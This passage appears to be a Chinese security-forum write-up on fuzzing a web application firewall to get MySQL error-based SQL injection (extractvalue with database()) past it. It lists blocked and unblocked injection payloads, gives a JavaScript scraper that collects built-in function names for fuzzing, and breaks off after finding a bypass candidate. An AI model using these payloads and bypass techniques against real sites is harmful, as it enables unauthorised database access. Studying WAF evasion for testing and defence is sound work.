![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-90712f7a4149ee293f94eaf8b168086ce1060743.png)

Fuzz一圈没有结果，发现`1'^extractvalue(0, database` 这个完全错误的语句都被拦截，只能将database从中间拆分才可以绕过，才能破坏掉WAF的语义。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-91f55608497d7a4a95e726e7a81eac557fddd8e6.png)

后面也陆陆续续测了不少思路，比如换行呀，尝试其他连接字符，`/**/`各种注释Fuzz，就不展开说了，下面主要讲讲自己怎么绕过，最终完美地执行`extractvalue(0, database())`语句。

**Fuzz 内置函数**

 在尝试的过程中我发现一个现象,当我传入`1' anxd extractvalue(0, database())%23` 或者删掉`anxd`的时候，waf是放行的，但是如果传入一些常规的操作字符，比如`and`, `&`,`or`,`>`,`<`字符waf则是拦截的，继续尝试官方文档里面的操作符号:  
<https://dev.mysql.com/doc/refman/8.0/en/non-typed-operators.html>，  
最终结果，发现大多数都是不行的，但是Fuzz的过程中，我发现了一个很有趣的，可能导致绕过的点，那就是WAF似乎没办法处理一些不常见的函数，尝试如下:

`1' md5(1) extractvalue(0, database())%23` 拦截

`1' mdx5(1) extractvalue(0, database())%23` 不拦截

`1' and mdx5(1)  and extractvalue(0, database())%23`不拦截

`1' and md5(1)  and extractvalue(0, database())%23` 拦截

`1' and sleep(1)  and extractvalue(0, database())%23` 拦截

`1' and hex(1)  and extractvalue(0, database())%23` 拦截

想到的常规函数都是被拦截，但仅仅依靠自己薄弱的知识面是不全面的，所以我直接从官方文档:  
<https://dev.mysql.com/doc/refman/5.7/en/built-in-function-reference.html>  
里面提取所有内置函数进行FUZZ，写个脚本提取下即可，大概424个内置函数。

```javascript
// https://dev.mysql.com/doc/refman/5.7/en/built-in-function-reference.html
selector = document.querySelectorAll('#docs-body > div > div.table > div:nth-child(3) > table > tbody > tr > th > a > code');
alls = "";
_function = "";
for (index = 0; index < selector.length; index++) {
    _function = selector[index].textContent;
    console.log(_function);
    alls += _function + '\n'
}

var aux = document.createElement("textarea");
aux.value = alls;
document.body.appendChild(aux);
aux.select();document.execCommand("copy");
document.body.removeChild(aux);
console.log("复制成功!");
```

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-7751f19dc3e340d637340561979ab9bfd7c97118.png)

经过FUZZ，前面比较常规的函数，都被WAF拦截了，另外有一些不常见的函数，都会提示`FUNCTION xxxx.JSON_DEPTH does not exist`，版本的问题，但功夫不负有心人，发现最终我找到一个函数`Y`，是可能导致绕过，且不会报错的，这个函数看起来很有感觉，比较短。
